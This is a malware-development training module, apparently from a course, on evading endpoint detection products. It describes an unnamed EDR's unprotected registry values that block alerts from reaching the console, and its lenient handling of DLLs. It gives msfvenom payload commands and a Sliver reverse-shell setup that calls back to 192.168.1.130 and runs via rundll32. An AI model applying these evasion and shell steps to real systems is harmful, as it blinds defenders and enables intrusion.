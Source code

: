 # 10.2 Exploiting EDRs For Evasion

This module showcases a 0-day vulnerability in a widely-used EDR, and building a functional shell that successfully circumvents the EDR's detection.

### Introduction

As a malware developer, one viable evasion technique is exploiting vulnerabilities in security solutions to render them ineffective. Rather than creating malware that evades the security solution in place, one can exploit the security solution to achieve evasion. This approach can be effective because security solutions are simply software, which means they can be vulnerable to exploits like any other software program.

This module aims to show that EDRs are software products that can have vulnerabilities like any other software program.

### Vulnerability Types

Two types of vulnerabilities affect security solutions:

1. Software vulnerabilities - These are the typical vulnerabilities that impact any other software such as injection, privilege escalation, and insecure storage.
    
2. Logic Vulnerabilities - These are vulnerabilities that are in the prevention/detection logic of the security solution. The nature of these types of vulnerabilities is constantly changing as security solutions adapt and update their detection and prevention methods.
    

This module will demonstrate an example using both types of vulnerabilities.

### EDR Software Vulnerability

#### EDR Components

Before finding software vulnerabilities within EDRs, it's important to understand the software that's being targeted. EDRs are typically composed of multiple software components that work together to protect against malicious software. These components usually include an endpoint agent, a central management console, behavioral analysis engines, threat intelligence, response capabilities, logging capabilities and more. When evading the EDR, one may be able to evade one or more of these components or in some cases, all of them. The image below illustrates the various components that Microsoft Defender for Endpoint utilizes for detection and prevention.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/mde-example-42e3-999e-33951eaa0c82.png)

The documentation provided by the vendor typically contains valuable information about the various components of the product. The image below shows Microsoft's documentation explaining a component of Microsoft Defender, `SenseNDR.exe`.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/google-search-42e3-999e-33951eaa0c82.png)

Additionally, one can gain brief information by reading the description of the EDR's binaries, as shown in the image below.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/mde-component-example-42e3-999e-33951eaa0c82.png)

Services are also commonly used by EDRs which also have a brief description as well.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/service-description-42e3-999e-33951eaa0c82.png)

Once the components are understood, one can begin to isolate and analyze the different components to discover vulnerabilities.

#### Discovering EDR Software Vulnerabilities

Discovering software vulnerabilities in security solutions requires one to use techniques similar to those used against ordinary software. For example, one can fuzz the different EDR binaries and verify that the privilege requirements are configured correctly. The aim is to identify vulnerabilities that allow actions from user mode to affect the behavior of the security solution.

To discover potential vulnerabilities, it can be helpful to examine security solution vulnerability disclosures, which offer valuable information on the specific types of weaknesses to investigate. MalDev Academy co-founder, @mrd0x, has two popular examples available that should be reviewed:

- [Bypassing Cortex XDR](https://mrd0x.com/cortex-xdr-analysis-and-bypass/)
    
- [McAfee 0-day Vulnerabilities](https://mrd0x.com/discovering-mcafee-products-zero-day-vulnerabilities/)
    

Another vulnerability that affected CrowdStrike Falcon was disclosed by @gmh5225.

- [CVE-2022-44721 Crowdstrike Falcon Uninstaller](https://github.com/gmh5225/CVE-2022-44721-CsFalconUninstaller)

#### EDR 0-Day Vulnerability Demo

This section will demonstrate a 0-day software vulnerability affecting a popular EDR solution. The vulnerability discovered prevents the EDR from sending logs to the centralized management console.

EDRs are designed to log alerts within a centralized management console, providing an easy-to-use interface for an organization's internal security team to monitor and analyze alerts and incidents. An example of an EDR console is shown below.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/console-42e3-999e-33951eaa0c82.png)

To further show this logging capability in action, a simple Msfvenom binary will be executed on the machine with the EDR installed. A Msfvenom DLL file is generated using the command below.

`msfvenom -p windows/x64/exec CMD=calc.exe -f dll -o out.dll`

The file is copied and executed on the target machine and immediately a notification appears warning that the file is malicious.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/evil-dll-42e3-999e-33951eaa0c82.png)

This same warning will also be sent to the centralized management console, as shown below. This is extremely useful for defenders because EDRs will not always auto-remediate the threat. Therefore this alert allows defenders to initiate their incident response procedure, isolate the machine, and kill the malicious process.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/centralized-42e3-999e-33951eaa0c82.png)

Unfortunately for defenders, this specific EDR product contains a vulnerability that allows an attacker with administrator privileges on the machine to prevent these alerts from arriving at the centralized management console by modifying certain registry values that belong to the EDR. Although EDRs do block modifications to essential registry keys that impact the EDR, it seems that this EDR product did not deem these registry values to be crucial to the product's behavior and therefore it did not incorporate tamper protection for those values.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/reg-42e3-999e-33951eaa0c82.png)

Once the machine is rebooted these registry values are applied to the EDR product and it prevents it from sending out logs to the centralized console.

### EDR Logic Vulnerabilities

Security solutions also contain logic vulnerabilities, where the detection logic is flawed and therefore results in malware slipping by without the expected prevention & detection.

#### EDR Logic Vulnerability Demo

EDRs are aggressive when it comes to EXE files, and will generally scrutinize them more than other file extensions. This can be seen in the image below, where as soon as the EXE file is downloaded, it's immediately detected and deleted.

`msfvenom -p windows/x64/exec CMD=calc.exe -f exe -o rev.exe`

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/delete-exe-file-42e3-999e-33951eaa0c82.png)

However, the EDR's detection logic reveals a weakness as it permits the execution of the same file in DLL format, categorizing it as "suspicious" rather than a "threat." This discrepancy in assessment indicates that EXE and DLL files are evaluated differently by the EDR, and it appears to be more lenient with DLL files.

`msfvenom -p windows/x64/exec CMD=calc.exe -f dll -o out.dll`

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/evil-dll-42e3-999e-33951eaa0c82.png)

With this logic vulnerability in mind let's get a working shell on the machine. This demonstration will utilize the [Sliver C&C Framework](https://github.com/BishopFox/sliver) and will assume that the reader has already installed it.

Start by generating a DLL payload using the command below.

`generate --mtls 192.168.1.130:443 -f shared`

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/sliver-gen-42e3-999e-33951eaa0c82.png)

Next, set up the listener using the command below.

`mtls --lport 443`

Deliver the DLL and execute it using `RunDll32.exe`

`rundll32.exe slif.dll,DllInstall`

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/rev-shell-success-42e3-999e-33951eaa0c82.png)

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/rev-shell-success-2-42e3-999e-33951eaa0c82.png)

Test that the shell is functioning correctly by running commands. In this case, the `ps` command is run to check for running processes, and as one can see in the image below, there are several running components of the EDR running on the machine.

![Image](https://maldevacademy.s3.amazonaws.com/new/update-one/run-cmd-42e3-999e-33951eaa0c82.png)

### Conclusion

At the end of the day, EDRs are simply software and can have bugs within their logic and within the software itself. Offensive security members will generally focus on finding logical bypasses as these are more common, but with enough digging, it's also possible to find software bugs as demonstrated in this module.